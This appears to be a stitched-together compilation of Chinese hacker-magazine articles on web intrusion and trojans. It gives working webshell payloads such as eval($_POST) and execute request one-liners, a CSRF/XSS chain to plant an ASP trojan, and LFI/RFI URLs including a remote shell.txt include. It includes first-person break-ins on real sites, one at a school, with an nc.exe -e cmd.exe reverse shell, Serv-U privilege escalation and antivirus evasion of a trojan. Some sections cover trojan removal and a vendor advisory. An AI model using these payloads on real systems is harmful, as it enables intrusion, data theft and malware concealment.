例如，在 PHPWIND 论坛中，如果进入后台，进入安全管理，有一个不良词语过滤、新增功能，在不良词语写入 `a']='aa'; eval($_POST['a']); //`。“替换为”那里可以随意写。而后得到一个 shell 地址为 `http://localhost/bbs/data/bbscache/wordsfb.php`（感谢淡蓝的翱翔鱼技术支持）。


如此则导致了如果 ASP 脚本程序将某些用户输入的数据保存在 asp 文件中，则我们可以在自己可以填写的数据中首先填写，然后写入 `eval(Request("d"))` 这样的一句话木马。

下面我们以 BBSGOOD 3.1 ACCESS 程序中出现的漏洞为例来实际讲解下操作。BBSGOOD 的后台配置文件是存储在文本中的，并且在后台是以修改文本文档内容的方式来修改配置的，如图3所示。


这样如果我们能利用管理员的身份更改这个 asp 文件的话，就可以写一个 asp 木马进入服务器了，但是管理员进入后台是需要输入密码的，如果没有破解出数据库加密的 MD5 时这个漏洞可以怎么利用呢？

通过看代码可以知道，处理后台的文件 Admin_Index_bbs.asp 没有防止外部提交，所以就为我们提供了一个通过跨站来利用管理员登录后的 session 和 cookies 信息来伪冒管理员写文件的可能。

```asp
onload="javascript:document.Filexg.submit()"
<%If Trim(request("xxadmin"))<>"" Then execute request("admin") End If%>
```

这里我们在本地搭建此程序，登录后台，然后将“论坛参数设置”这个页面保存下来，然后在 body 标签中添加上述属性，并把其中的内容最后加一行代码，这样就使得文件 `board\const.asp` 包含了我们的一句话木马。

我们可以用一句话木马客户端连接并执行命令。自动提交页面就是这样了，下面再说下如何让管理员访问我们的自提交页面。为了确保管理员能够访问，我们采用短消息中的跨站漏洞来攻击。

```html
<iframe src="http://www.myzone.com/submit.html" width="0" height="0"></iframe>
```

给管理员发送一个短消息，内容随便写，当然，要写一些迷惑性比较强的。然后标题处写上述 iframe 代码（这里数据库限制了字段大小，所以应使网址尽量短）“管理员我有问题要问！”，将这里的 src 后面的内容替换为你放置自动提交页面的地址，当管理员访问短消息列表的时候就会中招了。

## 四、字符分割导致构造数据

某些程序中，其某些信息保存在数据库中时，可能由于某种原因，多个信息都保存在同一字段中，并使用一些特殊符号来分割，例如在动网论坛程序中，其保存用户信息的一个字段中的值如下：


当取出信息后，使用 asp 的 split 函数将其分割到一个数组变量中，再进行后续的操作。我们不得不评价这种方法实在是非常的妙，它有效地节省了数据库的空间并且使得数据操作的动作比较简单，但是如果在编制程序时没有进行好的过滤则可能导致比较大的问题。

在动网验证用户身份的页面是通过读取上述信息转化为数组变量后，其中数组的第 20 个元素的值，如果此元素值为 1，则判定为管理员。但是在其用户注册或者用户信息修改时，对于用户输入的头像并没有过滤，这样导致如果我们在一个普通用户的头像处写入：


则可以人工伪造数组的第 20 个元素为 1，达到了提升权限的目的。

## 五、PHP 引入文件未过滤终结字符漏洞

BUGTRAQ ID 为 14929 的漏洞报告指出 PHPMyFAQ 程序的一个本地文件包含漏洞，其详细的报告内容是这样的：

> phpMyFAQ 不充分过滤用户提交的输入，远程攻击者可以利用漏洞以 WEB 权限查看本地文件内容信息。  
> 由于对 LANGCODE 参数缺少充分过滤，提交包含多个 `../` 字符的数据作为 URL 参数可绕过 WEB ROOT 限制，以 WEB 权限查看任意文件内容。

**测试方法**

`http://www.example.com/[path]/phpmyfaq/index.php?LANGCODE=../../../../../../etc/passwd%00`  
`http://www.example.com/[path]/phpmyfaq/index.php?LANGCODE=../../../../../../[scriptname]`  
`http://www.example.com/[path]/phpmyfaq/index.php?LANGCODE=http://remoteip/shell.txt`

这里我们可以看到，导致这种漏洞出现的根本原因是程序员获取参数引用时没有过滤其中的目录跳转符号“../”以及终结字符“null（即 %00）”，而又根据这个参数引入文件，导致可以引入任意文件。由于没有找到 phpmyfaq 相关版本的代码，这么直接说原理可能大家有点摸不着头脑，这里感谢 xy7[BCT] 为我们提供了一段信息：在一个名为 LoudBlog 的 BLOG 程序的 index.php 页面中有如下代码：

```php
<?php
if (!isset($_GET['page'])) {
  $loadme = "inc/backend_postings.php";
} else {
  // build an include-path from the url-request
  $loadme = "inc/backend_" . $_GET['page'] . ".php";
}
// yee-hah! finally we do show real content on our page!
include($loadme);
?>
```

可以看到，程序中的 `$page` 这个变量是我们通过 URL 提交的地址参数，程序的本意是根据此参数包含不同的页面，但是其没有进行很好的过滤。比如这里我们提交 page 参数为 `../hello`，此时程序就会引入网站根目录下的 hello.php 这个文件；但是如果我们想引入别的文件呢？譬如在 Linux 系统中，引入 passwd 文件，这个文件是没有扩展名的，但是如果将 page 参数输入 `../../../../../../passwd`，程序会自动加入 `.php` 的扩展名，那怎么办呢？读者朋友可以翻到本文章的开头，上传漏洞的部分，在那里我们说了可以利用终结符 `%00` 来让系统认为一个字符串已经结束，因此在这里可以采用同样的方法，即更改 page 参数的值为 `../../../../../../passwd%00` 即可。

如果仅仅是引入本地文件，那么就小看它了。当 PHP 配置文件中的 `allow_url_fopen=ON` 的时候，我们可以指定远程主机上的一个文件，譬如提交如下 URL：

`http://www.example.com/[path]/phpmyfaq/index.php?LANGCODE=http://remoteip/shell.txt`

只要 shell.txt 里包含 shell 语句，这样程序包含时不管后缀是什么都会当作 PHP 文件来执行，这样就可以以 web 权限远程执行命令了。

当然，这种方法有一个局限就是 php 配置的 `magic_quotes_gpc` 问题。我们知道，当 `magic_quotes_gpc` 配置为 on 时，会对一些危险字符进行转义，我们所使用的终结字符同样会被转义，此时就不能正常引入了。但是如果在 `magic_quotes_gpc=on` 的情况下，就一定不能成功利用此漏洞了吗？也不一定，由于现在很多 WEB 程序会自动判断 `magic_quotes_gpc` 的状态，如果是 `magic_quotes_gpc=on` 的这种情况，在一些时候，程序会自动去掉转义字符。打个比方，一个论坛在发表帖子的地方，没有必要将单引号转义，否则用户发表的帖子就不正常了，因此具体情况还是要由程序来定的。

## 六、总结

本文简单地讲述了在脚本安全方面特殊字符起到的一些特殊作用，特殊字符虽然小，但是其导致的问题的严重程度和注入可以说是不相上下的。作为程序员，要对用户输入的数据有充分的估计，同时要对所使用的开发环境中对特殊字符的解析有熟悉的掌握，要估计用户可能输入的特殊字符而造成的后果，并进行过滤。感谢本文所提到的漏洞的发现者，正是他们对技术孜孜不倦的追求才促使了程序安全性的不断进步！

> 编者按：作者总结了一些特殊字符在入侵中的用处，恰当地举了几个例子。但是我认为这篇文章主要的目的变为了赚稿费而写的一篇文章（当然我并不是抨击作者的这种做法，反而是很欣赏），为什么这样说呢？因为看到的只是作者为了总结而总结，举了几个热态的例子而已，并没有从中上升到一个质的提高，也就是说作者没有总结出一个规律性的东西。其实举个简单例子，`1=1` 和 `1=2` 现在在注入中就是一个理论的高度了，这篇文章就没有总结出这样的东西。其实要总结也很简单，比如说不可见字符的利用（回车在 url 里的 `%0d%0a`，未支持多重 msql 查询），还有多个字符的替换（tab 键替换空格、`/**/` 替换空格）、null 的截断（本文说的 00）等等，这样来归类总结就会很清晰、很理论化，而不是像这样为赚稿费的例子堆砌。

## 雕虫小技之 Windows 服务器安全专辑

## 进行必要的审核

打开本地安全策略——本地策略——审核策略

- 审核策略更改：成功，失败
- 审核系统事件：成功，失败
- 审核账户登录事件：成功，失败
- 审核账户管理：成功，失败
- 其他有必要的审核

服务器调试完成以后，禁用命令解释器 cmd.exe 和批处理文件的执行，可以通过组策略，也可以通过注册表来完成。新建一个文本文档，写入以下内容：

```reg
Windows Registry Editor Version 5.00
[HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\System]
"DisableCMD"=dword:00000001
```

保存为 `*.reg` 导入注册表。解除限制只要将添加的 DisableCMD 删除。

## 一、轻松获得 WEBSHELL

今天上网时碰到一个网站，随便找了一个链接便发现存在注入漏洞，通过啊 D 猜解出管理员密码和后台地址后，成功登录后台管理。发现后台使用了著名的 EWEBEDITOR 作为在线编辑的工具，呵呵，这无疑是给我打开了方便之门。通过主页上的图片链接地址，我找到了 EWEBEDITOR 的位置，如图1所示。

在 IE 中我输入 `http://www.xxx.xxx/ewebedit/admin_login.asp` 连接 EWEBEDITOR 的后台管理页面，如图2所示。


使用默认的管理员用户 admin 和默认的密码 admin 登录，失败……呵呵，没有关系，我们再来。连接 `http://www.xxx.xxx/ewebedit/db/ewebeditor.mdb`，用默认地址下载数据库，哈哈，成功了，如图3所示。管理员同志还是不太细心啊，要不然也不会让我有机可乘了。


破解用户名和密码之后，进入后台管理，点击“样式管理”，复制一个样式名为“standard”的样式，便会在下面出现一个叫“standard1”的新样式。点击其右边管理中的“设置”，在“其它类型”中添加一个 asa，如图4所示。然后返回“样式管理”，点击预览样式“standard1”，在上传文件的“其它类型”处上传一个 asa 后缀的海阳顶端木马即可，如图5所示。


上传完毕后，把 EWEBEDITOR 的模式从“设计”换成“预览”，直接点击我们刚才上传的那个文件即可，如图6所示。WEBSHELL 上传成功。


## 二、提权受阻

上传 WEBSHELL 只是我们万里长征的第一步，我们的最终目的是要获得服务器的管理员权限。快速浏览了下服务器的内容，掌握了服务器的基本信息：WINDOWS 2003 SERVER + IIS 架构，2 个 CPU，内存 1G，硬盘 250G，数据库采用的是 MS SQL SERVER，FTP 服务器采用的是 SERV-U。哈哈，极品啊，今天的运气还真是不错，看来不把它完全拿下来我都对不起观众了。

SERV-U？不错，这个大家都晓得，既然不难到手了，由于服务器的权限设置不好，使得我可以直接访问 SERV-U 所在的目录。把目录下的 `ServUDaemon.ini` 文件下载到本机之后，我添加了一个 SYSTEM 管理员权限的用户，如图7所示。


正当我兴高采烈地把 `ServUDaemon.ini` 重新上传回本机时，意外出现了，如图8所示。原来 SERV-U 目录是屏蔽了上传权限的，看来管理员同志也是与时俱进、勤练内功啊。


文件修改不行我就本地提权，在 `C:\Documents and Settings\All Users\Documents\` 目录下上传了 `cmd.exe` 和 serv-u 本地提权工具 `s.exe` 之后，利用海阳的“WScript.Shell 程序运行器”运行 `s.exe`，却闹的是 INTERNET 来宾用户被限制了执行权限，权限提升再次失败。

看来从 SERV-U 入手是不太可能了，我马上转移目标，看看服务器上是否还有其它的提权途径。PcAnywhere？没有。SQL SERVER？由于是内网，未把端口映射出来，也不能用。SAM 文件？无法下载。“启动”文件夹？无法上传……仿佛一切提权的方法都无效了，真是天意弄人啊，到口的肥肉就要这样掉了。不甘心，实在是不甘心。

## 三、突破 SERV-U

郁闷和彷徨之际，我再次打开了 SERV-U 目录下的 `ServUDaemon.ini` 文件，漫无目的地看了看，突然眼前灵光一闪，SERV-U 中用户的权限设置引起了我的注意，如图9所示。


设置为系统管理员权限。但是，修改下 `ServUDaemon.ini` 文件应该是没有问题的。

我怀着满心欢喜用 Serv-U 纯数字密码爆破工具破解上面这两个 FTP 密码，可是几个小时过去了，仍然没有破解出来，看来密码非纯数字的了。再破解下去估计意义不大，看来只好走其它途径来获取它 SERV-U 的密码。根据大多数管理员都使用一个密码的特点，看看能不能从网站的后台管理员密码下手。通过我的 WEBSHELL，我找到了一个 DVBBS 的数据，下载到本地之后，用数据库浏览器打开，如图10所示。


用户名前缀也是 y1，看来有戏。我把它用 MD5 加密的密码放在 `http://www.xmd5.org/index_cn.htm` 上跑了一下，没有出来。意料之中，因为从它的 SERV-U 密码破解的过程我就看出，这个密码不是那么简单的。还好，我还有一招，因为 DVBBS 在数据库中记录了后台密码改动的情况。打开数据库的 Dv_log 表，在字段 l_content 中搜索关键字 pass，经过仔细查找，终于找到了用户 y1_rose 的密码，如图11所示。


数字加字母，观察了这个密码的结构后，我马上就肯定，这就是我苦苦寻找的 FTP 密码。由于 FTP 的端口被管理员改成了 8021，用命令行登录不进去了，所以我使用了 FLASHFXP 登录。果然成功登录，我一阵狂喜。如图12所示。


马上上传一个 NC，然后在 FLASHFXP “查看”目录下的“原始命令行”前打上勾，便会在右下角出现一条空白行，然后我在本地用 NC 监听 80 端口，再在原始命令行中输入 `site exec nc.exe -e cmd.exe 我自己的IP 80` 即可，如图13所示。

我本地监听的端口立刻出现一个 SHELL，如图14所示。


## 四、提权成功

现在的任务就是在这个新的 SHELL 中完成我刚才没有完成的提权过程。首先我把刚刚修改过的 `ServUDaemon.ini` 改名为 `ServUDaemon2.ini`，用 WEBSHELL 上传到网站目录下。然后在刚才返回的那个 SHELL 中把根路径改成 SERV-U 目录，并通过以下命令完成对 `ServUDaemon.ini` 文件的修改，如图15所示。

修改完成后，删除 `ServUDaemon1.ini`。用 FLASHFXP 再次连接，哈哈，成功了。然后使用上面的方法再次返回一个 SHELL，这个 SHELL 就是最高权限了，我用它来添加管理员用户，但它提示 `'net' 不是内部或外部命令，也不是可运行的程序或批处理文件`，那我再上传一个 `net.exe` 后再试试看，啊啊，终于成功了，如图16所示。


## 五、后话

可能本次攻击带有某些运气的成分在里面，但是其中的一些方法和思路还是有读者们值得学习的地方。方法虽然另类了一点，但不拘一格才是黑客的真本色嘛。

【文章中用到的工具 servu 提权工具 `s.exe`、数据库工具“辅臣数据库浏览器.exe”和 `nc.exe` 已收录在本期光盘】

## 校园某某聊天室入侵

今天在群里有个朋友叫我入侵他们的学校，改下他糟糕的成绩，汗！我只答应了去做下检测，这是个师范学校呢，我也是师范大学的，还是师范专业的。嘿嘿，以后把你们的孩子都交给我辅导吧（鸡蛋满天飞）！

## 1、初步试探

我把那个站上上下下看了一遍，管理员是超级的变态，把所有的动态链接全部删除了，基本上都是 html 的静态页面了，暴汗！连个留言本什么的都不给学生们当交流或者发表意见平台（难道你们学校的学生没有人对你们不满？）暴库、注入都别想了，旁注也别想了！

利用 Google 搜了一下 asp 的页面，但是打开链接都提示无法显示该页。后来又在 Google 里输入：`site:www.xxx.cn inurl:login.asp`，打开那些链接，全部无法显示，管理员真是牛。全是静态页面，咋办？当然不可能这么快就放弃，继续找！没一会儿找到了管理员的登录地址 `http://www.xxx.cn/admin/Login.asp`，不过后台有验证码的，“万能密码” `'or'1'='` 就没戏了！

## 2、旁观端倪

现在没办法了，只能试试制造错误或许能得到点信息，于是就随便输入用户名和密码等，提交后看到了什么？（图1）

这下我们就得知那学校用的是风讯 v3.0 系统了。嘿嘿，快速跑到风讯官方帮助那边看了一下，然后在 IE 里输入：`http://www.xxx.cn/FooSun_Data/AddressIp.mdb`（这里输入这个的目的是因为这个 IP 地址数据库里的信息对入侵的威胁基本没有，所以管理员一般不会改的），提交后弹出了下载对话框，说明存在 FooSun_Data 这个目录，然后照着风讯帮助里的信息，在 IE 地址栏里输入：`http://www.xxx.cn/FooSun_Data/FooSun_Data.asp`，返回了无法显示该页。

好像是做了防下载处理了，要不然就是管理员改了文件名。


网上下了个 3.0 版的，根据本地的虚拟平台找到了一些 ASP 的页面，主要是希望找到能注入的，不过均告失败了。

## 3. 成功突破

冷静一下，突然想起上次在哪里看过风讯网站系统的漏洞，后来在网上查了一下，大体意思是风讯网站系统 `users/Editer/SelectPic.asp` 文件过滤不严，造成用户可以浏览整站文件。那么，下面我们就来测试吧。

在地址栏输入：`http://www.xxx.com/users/Editer/SelectPic.asp?LimitUpFileFlag=&CurrPath=/Files/../FOOSun_Data`，如图 2 所示，Foosun_Data 这个文件夹的文件都显示出来了。看到了一个 `FooSoo_Data.mdb` 文件，默认的数据库。

在 IE 地址栏输入：`http://www.xxx.com/Foosun_Data/FooSoo_Data.mdb`，马上有结果了。看了下数据库，是 MD5 加密的，于是输入了用户名 admin，密码 admin888，竟然进去了（图 3）。

## 4. 马上传危机

在后台找了一会，在“虚拟目录管理”那边，可以查看任意目录，还可以导入数据，如图 4 所示。点导入，弹出一个对话框，有四个上传的地方，试着传个 ASP 上去，不让传。

## 5. 突出重围

- 1. 风讯设计缺陷：继续搜寻，在系统管理的系统参数处找到站点常量设置。进一步在 `INC` 文件夹找到 `Const.asp`，内容与站点常量设置一致，于是在常量设置里写入代码并保存，再访问 `http://xxxx/inc/const.asp`，马上出现（图 6）。
- 2. 备份还原：后台有备份数据库处（图 7），结合“虚拟目录管理”可查看任意目录并上传文件到任意目录（受文件类型限制），可通过改后缀等方式上传并恢复利用。

## 6. 后话

成功拿下这所学校的网站，有很多运气成分。当然思路是最重要的。勤学习，多思考，常实践！对你学习 HACK 技术肯定很有帮助！

```asp
Const AdminDir="Admin"
Const ClassDir="Get"
Const SysRootDir=""
Const UpFiles="Files"
Const TemplateDir="Templates"
Const RecordDataBaseConnectStr="Provider=Microsoft.Jet.OLEDB.4.0;Data Source="
...（其余配置常量略）
```

Mambo 是非常强大的 PHP 系统，以前也曾多次提及。虽为开源界的精英，Mambo 也不小心爆出了 DOS 漏洞，文中不但给出了利用方法，更分析了涉及的代码，让大家看得清清楚楚。本期《夜航船》没有技术翻译条目，但依然欢迎大家通过回帖指出我们翻译不足的地方。另外，值得注意的是，本案所讲述的漏洞是由伊朗安全人员发现的。

## Mambo/Joomla rss component vulnerability

## Mambo/Joomla rss 组件漏洞

Translator: sloely, laroea

- Mambo Website: http://www.mamboserver.com
- Bug: Path Disclosure & Remote Denial of Service
- Exploitation: Remote with browser
- MAMBO 网址: http://www.mamboserver.com
- 漏洞: 路径泄露以及远程拒绝服务
- 利用: 通过浏览器远程利用

Description:

Mambo is a feature-rich dynamic portal engine/content management tool capable of building sites from several pages to several thousand.  
Mambo uses PHP/MySQL and features a very comprehensive admin manager.

## 拒绝服务

当 Mambo 安装的服务器为 IIS，且此服务器上 PHP 作为 ISAPI 模块加载的时候，会受到拒绝服务攻击。请求 `http://example.com/index2.php?option=com_r...itraryfilenames` 页面将导致在缓存文件夹中强制生成垃圾文件。当请求比较多的时候，就会导致 IIS 返回 “HTTP 403.9 - Access Forbidden: Too many users are connected Internet Information Services”，使得正常用户无法访问；或者收到作为 ISAPI 模块加载的 PHP5 的信息：“PHP has encountered an Access Violation at 77F6103A”。

Solution:  
There is no vendor supplied patch for this issue at this time.  
NOTE: This issue was addressed in the Joomla! 1.0.8 release.

## 说明

Mambo 是未来最有影响力的网站建立门户工具，它擅长建立几页至几千个页面的网站。  
Mambo 使用 PHP/MySQL 架构，并且是全功能的管理工具。

Vulnerability:

The script does not properly validate user-supplied input in `rss.php`. A remote user can supply a specially crafted URL to cause the system to display an error message that discloses the installation path, or force the script to create tons of superfluous xml-files which in some cases result in remote DoS attacks against target.

Lets see Code Snippets:

## 解决方案

目前提供商没有就此漏洞给出补丁。  
注意：此问题在 Joomla! 1.0.8 版本中已修复。

Credit:  
Discovered & released by trueend5 (trueend5 kapda ir)  
Security Science Researchers Institute Of Iran  
http://www.KAPDA.ir

## 漏洞描述

它的脚本不能够有效地处理用户在 `rss.php` 页面所请求的信息。远程用户可以提交特制的 URL，使系统返回一个错误消息，并且暴露安装目录，或者强迫程序生成大量垃圾 XML 文件，从而实现远程拒绝服务的目的。

DDOS:  
It is possible to perform distributed Denial of Service attacks against installed mambo on IIS servers. Specially when php runs as ISAPI module, requesting `http://example.com/index2.php?option=com_r...itraryfilenames` will cause remote script to save arbitrary files in cache folder. And large amount of request will cause IIS to return “HTTP 403.9 Access Forbidden: Too many users are connected Internet Information Services” to legitimate users, or from php5 as isapi module “PHP has encountered an Access Violation at 77F6103A”.

## 发现

该漏洞由 trueend5 (trueend5 kapda ir) 发现。  
伊朗安全科学研究学院  
网址：http://www.KAPDA.ir

## 网上借微软的翅膀

## 飞越 NOD32

根据这个提示可以知道，我们只要在 CMD 下按照下面的格式输入：

`screnc.exe 没有加密前的ASP木马 生成加密的ASP木马`

OK，我们根据本文的例子在 CMD 下输入：`screnc.exe 2006_Lite.asp hy2006.asp`，不要忘了回车哦。用 DIR 命令查看文件是否生成了，见图 2。

我最近在学习注入技术，经常遇到网页被无情杀害的“悲剧”，直到我遇到 `screnc.exe`，小马的命运才从此改变了。`screnc.exe` 是微软提供的一款小巧的 ASP 加密程序，加密后 ASP 代码发生了很大变化。利用这一特性，我们可以对 ASP 木马进行免杀处理，不信吗？请往下看！首先我们试用杀毒软件对海洋顶端 2006 ASP 网页木马进行检测，软件立刻报警提示有毒，见图 1。

```text
Usage: screnc [/??] [/s] [/f] [/x] [/l ScriptLanguage] [/e DefaultExtension] <source> <destination>
```

我们来比较一下加密前后的文件变化，通过图 2 可以发现，文件的体积变大了。接下来我们用记事本分别打开这两个文件对比一下，发现内容产生了很大的变化，加密后的代码像乱码一样堆积，这也是直接导致小马免杀的关键点，见图 3。

最后我们再使用杀毒软件扫描一下加密后小马，见图 4。嘿嘿~~果然免杀成功。

整个免杀的过程就结束了，是不是很简单啊！这是我第一次做免杀，很高兴能成功，以后还要向各位前辈们多多学习手动免杀方法，请大家多多帮忙。

> 【文中所涉及到的海洋顶端 2006、Screnc，已经收录在光盘中】

编辑点评：由于杀毒软件定位特征码通常是提取文件中某一段或多段的代码，加密后可以看到 `<% ... %>` 等标签内的代码都发生了变化，而杀毒软件进行特征码对比的时候就找不到对应的特征，这样就简单地躲过查杀了。这个方法在某些情况下可行，但对于蠕虫还需进一步处理。总之要灵活运用，开阔思路。

记得当初刚玩黑时，自己中了自己配置的木马服务端，由于水平有限，格式化重装系统是家常便饭，这都是不懂不会的结果。如今查杀木马也有几个年头了，才发现某些情况下查杀木马也能偷懒……

## theta2 的查杀过程及其分析

- 1. 本文中涉及到的工具：PEiD v0.92、绿冰。
- 2. 安全检测工具：theta2。
- 3. Registry Monitor 等木马辅助查找器。

最近有了点时间，无意中看到了 theta2，这是一个木马程序，服务端只有 7K，不知道大家用过没有。看它的英文说明，是注入进程的，隐藏性也比较好，而且支持反弹，特别是它有 PHP 上线通知。我实在忍不住去试了试这款好玩意儿，不想却被反咬一口。痛心疾首之后，终于带着最后成功的喜悦把整个杀毒过程记录了下来，给大家做个参考。

## 一、意外中毒

拿到 theta2，我赶紧配置服务端（图 1），点击“Generate”生成了一个小程序。我想连我都能拿到手的木马，被查杀那是一定的了，用 PEiD v0.92 查壳（图 2），是用 fsg2.0 加的壳。这时我开始对 theta2 有点不满，自己都不能加壳，那我还怎么用。于是我想到了脱壳，便用 PEiD v0.92 自带的脱壳工具进行脱壳，结果失败（图 3、图 4）。其详细过程我就不多啰嗦了。

127.0.0.1 51086，发现果真如此。

## 二、初步查杀

首先想到的是 theta2 的卸载功能，我用 nc 连接后，用“@R”进行卸载，出现错误。我不知道为什么，我想应该卸载了吧，于是我试着删除刚刚配置的服务端，竟然也删掉了，爽！我再用灰鸽子作者写的“木马辅助查找器”查找，发现进程一切正常。启动项发现有 theta 存在（图 5），赶紧删除，刷新，发现又回来了，难道是没有卸载成功？我再次连接 nc `127.0.0.1 51086`，又连上了。郁闷啊，怎么办？

## 三、交战注册表

运行 regedit 注册表，搜索 heta，发现就那么一个关联启动，还是系统默认的启动（老位置了），再删还是删不掉。我想说明书里应该有关于手工卸载的说明吧，可我找来找去发现就这两句话（图 6），意思是说服务端被注入到 `winlogon.exe` 进程里去了。想到一般的 dll 木马只要宿主被终止，dll 木马也就失效了，于是我试着用任务管理器终止进程 winlogon，发现不行，便使用了结束进程工具 pk。在 cmd 下输入 `pk winlogon.exe`，竟然重启了……大概 `winlogon.exe` 是 Windows 的生命线吧！那现在该怎么办呢？

## 四、锁定 winlogon

既然是注入 winlogon，那么 winlogon 的行为就一定包括木马的行为，于是我想用 “Registry Monitor” 这个工具，应该也是蛮不错的，它的主要功能是对注册表进行监视。我们启动 `Regmon.exe`，并对其进行过滤 `winlogon.exe`（图 7），这下果然有了一点线索。winlogon 一直在向注册表发出修改命令，所以无论用户怎样修改注册表，启动项的 theta 是不变的（图 8）。

## 五、删除 theta

我们到 `windows\system32\` 下找到注册表中 theta 对应的程序名，把它删除，却发现删不掉。

我找了张启动盘，准备在 DOS 下删除 `theta_server.exe`，却发现进不了 NTFS 格式的磁盘。难道真的一点办法也没有了吗？总不至于重装系统吧！最后想到了自己的大部分软件都不在系统盘里，而且还有备份，在我把安装盘按下去的前 0.01 秒，我想到了系统的安全模式！因为系统在安全模式下不一定加载启动项，那么删除 `theta_server.exe` 也就成了可能！于是我在安全模式 CMD 下找到了 `windows\system32\theta_server.exe`，果然轻松删除了它（图 9、图 10）。然后重启系统，我立即打开注册表删除启动项的 theta（图 11）。

## 六、扫尾

我打开任务管理器查看，进程 winlogon 占用的资源恢复了正常（只有 600 多 K，先前是 1800 多 K）（图 12），再用 nc 连接，发现连接失败，证明删除成功。

通过这次查杀过程，我也得到了一点经验：启动项的保护方法很重要，我们可以像 theta 一样，注入到系统的一个必需进程中，一直修改注册表来达到保护启动项的目的。不过，其不足之处就是这个启动项实在不怎么隐蔽，容易被发现，还有就是它的服务端过于“老旧”，我们不能加壳，PHP 上线通知功能也不灵。

好了，不知大家是否有过和我同样的经历？欢迎来和我交流：flyphp@gmail.com。

> 【文章中涉及到的 PEiD0.92cn、QuickUnpack 0.6、theta2、辅助查找器在光盘中有提供】

确实，自己一个不小心就中了自己配置好的木马。现在大多数木马都喜欢把自己注入到 Winlogon 进程中，这样一旦用户结束 Winlogon，系统就崩溃了。建议大家使用 IceSword 查看进程以及进程的模块，该方法仅限于对系统文件有深入了解的用户。

- 1. 发现 WinRAR 自解压文件中的可疑配置
- 2. 判断加壳（ASPack）并尝试脱壳
- 3. UE 查找特征码及相关信息
- 4. 进一步分析并清除

2006 年这么快就到了，我还沉浸在 2005 年当中呢。已经高二的我似乎好久没干什么正事了，注入漏洞的流行让我这个小菜看得眼红，所以决定拿一套代码来读读。注入漏洞相当普遍，我随便找了个源码站 DOWN 了一套下来读读，当然事情没我想的那么简单，直看得我腰酸背痛腿抽筋。为了消除这种状态，我就去找一些搞笑视频来消遣，谁知却遇到了这件事。

## 一、发现问题

由于眼疲劳过度，急于找些东西娱乐，所以随便下载了一些搞笑视频来看。就在打开自解压包的时候突然出现了两个东西，其中一个一闪就消失了，剩下的当然是我要看的东西。但是刚刚消失的那个是什么呢？于是我用 WinRAR 打开那个压缩包再看，果然发现了这么一个东西。如图 1、图 2 所示。晕，这个 `Setup=open.exe` 是什么东西？用 WinRAR 单独解压缩来看，解压缩以后首先来看壳，如图 3 所示，发现是加了 ASPack 的壳，那就先来给它脱壳吧，否则什么也收获不了哦。看雪那里找到 ASpackDie，这是 ASPack 的脱壳程序（个人还是很喜欢看雪学院的）。直接运行 ASpackDie，选择要脱壳的程序打开，很顺利地就把壳脱掉了。


是用 C++ 写的东东，嘿嘿，现在它在我们面前就是赤裸裸的啦，赶快用 UE 来瞅个究竟吧。这里大家要有耐心，虽然很乱，但是我觉得有用的东西大多都是集中在一起的，如图 4 所示。


种马人接收信息的邮箱的账号密码都已经摆在那里了，程序的作用我猜就是盗窃账号密码的，上面的 QQ 和梦幻西游就不用我再说什么了吧（嘿嘿，速攻之）。而且这位不速之客的来历似乎也告诉我们了，如图 5 所示。redspider.dll 和 redspider.exe 估计就是服务端安装以后的东西了。那么现在就让我们一起来把它清出我们的地盘吧！

先来看看启动项有什么问题，如图 6 所示。


这一看就暴露得更彻底啦，它直接把自己加入到启动项中，连它所在的注册表的位置也清楚地写在上面，让我迅速在注册表中解决它吧（从上面的图中知道这原来是个红蜘蛛键盘记录器）。为了方便，在注册表中直接搜索 redspider 就可以轻松找到了，谁叫它的名字这么没艺术性呢，如图 7 所示。删除后我们就可以直接把它清出去了哦。重启之后来到 system32，它正在那里静静地等着我们呢，删除之后就天下太平了，如图 8 所示。


看来我已经可以成为这匹马儿的合法主人了哦，速速改掉密码。

本文的技术含量不高，主要是给大家提个醒，现在真是人心叵测啊，安全随时都要注意。如果文章中有什么问题，欢迎在论坛提出，我恭候大家。

> 【文章中涉及的 AspackDie、PEiD、UltraEdit 在光盘中有提供】

> 编解点拨：许多自解压包都包括 Setup=XXX.exe，不是木马就是捆绑的插件来提高自己网站的访问量。UE 查找可疑信息比较常用，这是在脱壳之后的操作。作者这里只是用软件脱壳的，建议大家学习脱壳技术，这样可以提高反病毒能力。

## 杀马·也有安全模式

现在的木马更新得可真快，用的技术也越来越多；Rootkit、关键服务、文件关联等，这导致有些杀毒软件尽管能认出它们，却奈何不得，如诺顿；或是强行删了它们，却没把相关设置改过来，导致更严重的系统问题（像无法启动 Windows），如江民。那有没有什么既安全又好用的杀马方法呢？当然有。

我们知道，所谓木马也不过就是个程序罢了，是程序就可以卸载，不论是 .exe 还是 .dll。那怎么卸呢？用“添加/删除程序”吗？当然不是（你见过木马有卸载项的吗？）。其实我们只要用杀毒软件找到这个木马，剩下的任务就可以交给优化大师了。打开优化大师，点系统清理维护下的软件智能卸载，再在右面点击“其他”，选中木马再点分析即可（图1）。分析完毕后将所有数据删除，不留任何痕迹，这样所有的设置都会被更正，不会引发系统问题。


> 【文中所涉及的 Windows 优化大师，已经收录在光盘中】

> 编解点拨：作者用智能卸载来清除木马的方法简单实用。请注意，一些如黑客之门和黑客守卫者这样的后门用该方法无效。经过测试，如果木马在系统目录下，该软件将无法进行分析。

六月一日，基本已经和我们的读者脱离关系了。不过，1938 年的第一本超人漫画也是在六月一日诞生的，想必很多人都是超人的 fans 吧？

本期《窗外》应读者要求，给大家介绍了 Linux 系统中常见的软件安装方法，生动地为大家组建了一个通用的共享网络——有了网络不能少了扫描！本期可以看到 *NIX 中颇为强大的 Nmap。最后，想知道怎么留个万能的后门么？那就来看本期的《窗外》吧。


## Linews

播报员：lala

企鹅 lala：一个标准总是弄得风起云涌，有标准的没标准的各执一词。Qt 的最终版本发行，XGL 出现（Linux 下 3D 桌面），图形化的 *NIX 是否是突飞猛进？树大招风，Linux 病毒与日俱增，会影响 Linux 的发展么？

……或者说像 WPS 把外观做得和 MS Office 一样，总是不算它。OpenOffice 要推广开也不是靠一个标准几种呼声。除了 fans 们的支持，更要自身的努力。

## ODF 开放文件格式获 ISO 认证 开源厂商同谷歌竞争

Open Document Format 已经通过 ISO 国际标准组织的审核，这将是全世界 ODF 格式推广的重要跳板。ODF 联盟执行主管 Marino Marcich 说道：“OpenDocument 格式通过 ISO 批准，是推广开放技术标准在政府部门普及的一个重要里程碑。”

制定 OpenDocument 标准的主要目的之一就是为用户冲破法律上或者技术上的贸易壁垒提供保证，即可让他们对数据长久的访问权。

